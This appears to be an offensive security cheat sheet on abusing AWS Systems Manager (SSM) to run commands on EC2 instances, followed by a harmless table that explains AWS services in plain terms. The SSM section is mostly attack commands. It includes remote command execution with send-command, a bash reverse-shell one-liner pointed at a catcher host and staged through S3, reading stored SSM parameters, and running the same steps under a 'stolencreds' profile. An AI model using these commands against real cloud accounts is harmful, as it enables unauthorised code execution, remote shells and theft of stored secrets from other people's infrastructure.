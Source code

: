 
```
# AWS SSM
- The agent must be installed in the machines
- It's used to create roles and policies

# Executing commands
aws ssm describe-instance-information #Get instance
aws ssm describe-instance-information --output text --query "InstanceInformationList[*]"
- Get "ifconfig" commandId
aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text --query "Command.CommandId"
- Execute CommandID generated for ifconfig
aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}"

# RCE
aws ssm send-command --document-name "AWS-RunShellScript" --comment "RCE test: whoami" --targets "Key=instanceids,Values=[instanceid]" --parameters 'commands=whoami'
aws ssm list-command-invocations --command-id "[CommandId]" --details

# Getting shell
- You already need to have reverse.sh uploaded to s3
#!/bin/bash
bash -i >& /dev/tcp/REVERSE-SHELL-CATCHER/9999 0>&1
- Start your listener
aws ssm send-command --document-name "AWS-RunRemoteScript" --instance-ids "INSTANCE-ID-HERE" --parameters '{"sourceType":["S3"],"sourceInfo":["{\"path\":\"PATH-TO-S3-SHELL-SCRIPT\"}"],"commandLine":["/bin/bash NAME-OF-SHELL-SCRIPT"]}' --query "Command.CommandId"

# Read info from SSM
aws ssm describe-parameters
aws ssm get-parameters --name <NameYouFindAbove>

# EC2 with SSM enabled leads to RCE
aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile stolencreds
aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile stolencreds
```

## Aws Services Summary

| AWS Service           | Should have been called                           | Use this to                                                                                                                                                                                                                                    | It's like                                                                                                                   |
| --------------------- | ------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| EC2                   | Amazon Virtual Servers                            | Host the bits of things you think of as a computer.                                                                                                                                                                                            | It's handwavy, but EC2 instances are similar to the virtual private servers you'd get at Linode, DigitalOcean or Rackspace. |
| IAM                   | Users, Keys and Certs                             | Set up additional users, set up new AWS Keys and policies.                                                                                                                                                                                     |                                                                                                                             |
| S3                    | Amazon Unlimited FTP Server                       | Store images and other assets for websites. Keep backups and share files between services. Host static websites. Also, many of the other AWS services write and read from S3.                                                                  |                                                                                                                             |
| VPC                   | Amazon Virtual Colocated Rack                     | Overcome objections that "all our stuff is on the internet!" by adding an additional layer of security. Makes it appear as if all of your AWS services are on the same little network instead of being small pieces in a much bigger network.  | If you're familar with networking: VLANs                                                                                    |
| Lambda                | AWS App Scripts                                   | Run little self contained snippets of JS, Java or Python to do discrete tasks. Sort of a combination of a queue and execution in one. Used for storing and then executing changes to your AWS setup or responding to events in S3 or DynamoDB. |                                                                                                                             |
| API Gateway           | API Proxy                                         | Proxy your apps API through this so you can throttle bad client traffic, test new versions, and present methods more cleanly.                                                                                                                  | 3Scale                                                                                                                      |
| RDS                   | Amazon SQL                                        | Be your app's Mysql, Postgres, and Oracle database.                                                                                                                                                                                            | Heroku Postgres                                                                                                             |